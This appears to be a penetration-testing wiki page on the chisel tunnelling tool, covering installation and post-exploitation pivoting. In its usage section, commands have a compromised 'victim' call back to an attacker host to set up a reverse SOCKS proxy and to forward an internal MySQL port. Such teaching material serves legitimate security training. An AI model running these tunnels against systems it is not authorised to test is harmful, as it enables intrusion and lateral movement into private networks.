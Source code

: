 
## Overview
---
> [!info]
> The **chisel** Github repository can be found [here](https://github.com/jpillora/chisel).

**Chisel** is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH.  It is a power modular tool that allows tunneling and port forwarding from a single executable (i.e., both client and server).

## Installation
---
### Option 1: Download from Github

```shell
# Download and clean-up the Linux version of Chisel v1.9.1
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gunzip chisel_1.9.1_linux_amd64.gz
mv chisel_1.9.1_linux_amd64 chisel

# Download and clean-up the Windows version of Chisel v1.9.1
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
gunzip chisel_1.9.1_windows_amd64.gz
mv chisel_1.9.1_windows_amd64 chisel.exe
```

### Option 2: Download from RGBwiki

> [!info]
> Download **chisel_1.9.1** (64-bit) binaries for Linux and Windows [here](../../../_downloads/chisel_1.9.1.zip).

### Option 3: Install using apt

As of version 1.9.1, `chisel` can now be downloaded on Kali using `apt`.

```shell
sudo apt install chisel -y
```

## Usage
---
### SOCKS Proxy

On our attacker, modify the last line of `/etc/proxychains4.conf` to utilize SOCKS5.
```shell
sudo nano /etc/proxychains4.conf
```

![[Pasted image 20230306165438.png]]

With the pre-requisites taken care of, we just need to move a `chisel` binary to the victim to  establish a tunnel.

```shell
# Attacker: Setup chisel listener
./chisel server -p <srv_port> --reverse

# Victim: Establish chisel callback
./chisel.exe client <attacker_ip>:<srv_port> R:socks

# Attacker: Proxy commands through victim
proxychains -q <command>
```

This will start a `chisel` server listener on our attacker using an arbitrary port, but once the connection is made by the uploaded `chisel` client on the compromised host, we can tunnel commands through the SOCKS5 proxy using `proxychains`.

**Visual Diagram:**
```mermaid
flowchart LR

A(Attacker<br>10.10.1.5:7575)
B{Client 1<br>10.10.1.10<br>192.168.1.10}
C(Client 2<br>192.168.1.11)
D(Client 3<br>192.168.1.12)
E(Client 4<br>192.168.1.13)

B --> | Step 1:<br>10.10.1.10 -> 10.10.1.5:7575 | A
A --> | Step 2:<br>SOCKS5 Proxy | B

B --> C
B --> D
B --> E
```

*(Note: in the above example, the attacker had a `chisel` server listening on port 7575, and established a SOCKS5 proxy once the `chisel` client on Client 1 called back.  This allows the attacker to now reach Clients 2-4 through `proxychains`.)*

### Port Forwarding

Port forwarding can be done to allow an attacker to access services on a target that are listening locally (e.g., MySQL database on 127.0.0.1:3306).

```shell
# Attacker: Setup chisel server
./chisel server -p <srv_port> --reverse

# Victim: Forward local port to attacker port
./chisel.exe client <attacker_ip>:<srv_port> R:<attacker_port>:127.0.0.1:<service_port>

# Attacker: Access victim port locally
<command> 127.0.0.1:<attacker_port>
```

**Visual Diagram:**
```mermaid
flowchart LR

A(Attacker<br>10.10.1.5:7575)
B{Client 1<br>10.10.1.10<br>MySQL -> 127.0.01:3306}

B --> | Step 1:<br>10.10.1.10 -> 10.10.1.5:7575 | A
B --> | Step 2:<br>R:3306:127.0.0.1:3306 | A
A --> | Step 3:<br>mysql -h 127.0.0.1 | B
```

*(Note: in the above example, the attacker had a `chisel` server listening on port 7575, and established a port forward to the local MySQL database once the `chisel` client on Client 1 called back.  This allows the attacker to now reach Client 1's MySQL server on his own system using `mysql -h 127.0.0.1 -u <username> -p`)*
